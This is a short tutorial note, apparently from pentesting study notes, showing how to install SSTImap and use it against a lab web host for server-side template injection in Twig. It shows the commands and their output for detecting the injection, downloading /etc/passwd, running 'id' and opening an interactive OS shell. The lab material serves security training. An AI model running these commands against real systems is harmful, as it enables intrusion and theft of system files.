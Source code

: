 ```yaml
---
title: e-SSTImap
draft: false
tags:
  - sstimap
---
```

## Installation

```shell-session
[!bash!]$ git clone https://github.com/vladko312/SSTImap

[!bash!]$ cd SSTImap

[!bash!]$ pip3 install -r requirements.txt
```

## Exploit

```shell-session
[!bash!]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test

<SNIP>

[+] SSTImap identified the following injection point:

  Query parameter: name
  Engine: Twig
  Injection: *
  Context: text
  OS: Linux
  Technique: render
  Capabilities:
    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, php code
```

To download a remote file to our local machine, we can use `-D` flag:

```shell-session
[!bash!]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'

<SNIP>

[+] File downloaded correctly
```

Additionally, we can execute a system command using the `-S` flag:

```shell-session
[!bash!]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id

<SNIP>

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Alternatively, we can use `--os-shell` to obtain an interactive shell:

```shell-session
[!bash!]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell

<SNIP>

[+] Run commands on the operating system.
Linux $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Linux $ whoami
www-data
```

